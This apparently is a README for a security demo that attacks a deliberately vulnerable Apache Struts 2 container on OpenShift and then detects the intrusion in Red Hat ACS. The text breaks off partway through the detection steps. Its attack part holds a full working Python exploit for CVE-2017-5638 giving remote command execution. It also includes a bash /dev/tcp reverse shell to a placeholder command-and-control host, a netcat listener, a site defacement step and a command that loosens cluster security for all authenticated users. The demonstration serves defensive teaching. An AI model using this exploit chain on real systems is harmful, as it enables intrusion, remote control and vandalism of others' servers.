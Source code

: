 # Demo of Kubernetes Container Hack in OpenShift, and protection via Red Hat ACS

## Exloiting a Vulnerability

Exploiting the Apache Struts 2 Java web framework CVE.

### OpenShift DOES NOT allow privileged containers by default. You will need to run this command to allow the vulnerable container to run
```bash
oc adm policy add-scc-to-group anyuid system:authenticated
```

### Setup Vulnerable Target Container

Deploy Pod with vulnerable version:
```bash
oc create -f vulnerable-pod.yaml
```

Access web application at http://<openshiftappsip>:30004.

### Attack Target Container

We are now going to use the Apache Struts 2 CVE to exploit the container using **Strutsshock**.

An invalid Content-Type header is passed into a request which throws an error. The error is not escaped properly which allows us to inject additional commands which will be performed on the target machine.

Create Python script for strutshock attack:

```bash
vi attack.py
```

Copy following script:

```python
import http.client
import urllib.error
import urllib.parse
import urllib.request


def exploit(url, cmd):
    payload = "%{(#_='multipart/form-data')."
    payload += "(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)."
    payload += "(#_memberAccess?"
    payload += "(#_memberAccess=#dm):"
    payload += "((#container=#context['com.opensymphony.xwork2.ActionContext.container'])."
    payload += "(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class))."
    payload += "(#ognlUtil.getExcludedPackageNames().clear())."
    payload += "(#ognlUtil.getExcludedClasses().clear())."
    payload += "(#context.setMemberAccess(#dm))))."
    payload += "(#cmd='%s')." % cmd
    payload += "(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win')))."
    payload += "(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd}))."
    payload += "(#p=new java.lang.ProcessBuilder(#cmds))."
    payload += "(#p.redirectErrorStream(true)).(#process=#p.start())."
    payload += "(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream()))."
    payload += "(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros))."
    payload += "(#ros.flush())}"
    try:
        headers = {'User-Agent': 'Mozilla/5.0', 'Content-Type': payload}
        request = urllib.request.Request(url, headers=headers)
        page = urllib.request.urlopen(request).read()
    except http.client.IncompleteRead as e:
        page = e.partial
    print(page)
    return page


if __name__ == '__main__':
    import sys

    if len(sys.argv) != 3:
        print("[*] str.py <url> <cmd>")
    else:
        print('[*]CVE: 2017-5638 - Apache Struts2 S2-045')
        url = sys.argv[1]
        cmd = sys.argv[2]
        print(("[*] cmd: %s\n" % cmd))
        exploit(url, cmd)
```

Execute command on target - Remote Command Execution (RCE):

```bash
python3 attack.py http://<openshiftappsip>:30004/ "whoami"
```

### Gain Reverse Shell Access

At this stage we can execute commands on the target machine. We want to go a step further by gaining a reverse shell into the container.

### Prepare to receive reverse shell

Firt we need to listen on the command and control server for a connection using netcat. 

```bash
nc -lnvp 4444
```

#### Get Reverse Shell on Target

From running a few commands we can see that the target vulnerable application is running as the root user on the target. This means we can do anything that we won't on the target and potentially on the host it is running on as well. We can also install any additional libraries that we need to setup command and control.

By running the following command we can see that it is running an old version of Debian Jessie:

```bash
python3 attack.py http://<openshiftappsip>:30004/ "apt-get update"
```

We can update the package manager sources so we can install additional libraries to exploit the target. We will install net can which will create a connection out to our command and control server.

```bash
python3 attack.py http://<openshiftappsip>:30004/ "sed -i \'s/deb.debian.org/archive.debian.org/g\' /etc/apt/sources.list"
python3 attack.py http://<openshiftappsip>:30004/ "apt-get update"
python3 attack.py http://<openshiftappsip>:30004/ "apt-get install -y --force-yes netcat"
```

Now that netcat is installed we can establish an outbound connection from our target to our command and control server. Since we are using port 443 it is likely that this traffic would be allowed outbound by the target's network:

```bash
python3 attack.py http://<openshiftappsip>:30004/ "bash -i >& /dev/tcp/<localip>/4444 0>&1"
```

We now have a reverse shell into the target.

Use the following in the command and control shell to allow clearing the console:
```bash
export TERM=xterm
```

We can see that this is a Docker host and running on Kubernetes:
```bash
ls -la
env
```

If we had mounted any secrets via Environment Variables we could now have access to them.

#### Make Changes to Target

Now that we have access we can make any change that we want to the system. This may include:

- Adding malware
- Creating a command and control server inside the target's network perimeter
- Deploying a worm
- Adding malware to their website being hosted
- Vandalizing the website
- Moving laterally within the target's network

The following can be used to make a change to the showcase screen which we have already found in our reconnaissance.

```bash
cd /usr/local/tomcat/webapps/ROOT
cat showcase.jsp
sed -i 's/Welcome!/You have been Hacked!/g' showcase.jsp
cat showcase.jsp
```

### Identifying the intrusion in ACS

In Central, click "Violations". 

![Alt text](Images/01.png)

You should be able to see "Shell Spawned by Java Application". This is the exploit and we can identify the vulnerable container by looking under the Entity column. The guilty party is "web" that is located in the default namespace. 

Under "Platform Configuration" in the left-hand menu, click on "Policy Management". In the search bar, search for Policy, then Shell. You should see "Shell Spawned by Java Application". Click the 3 dots on the right and select 
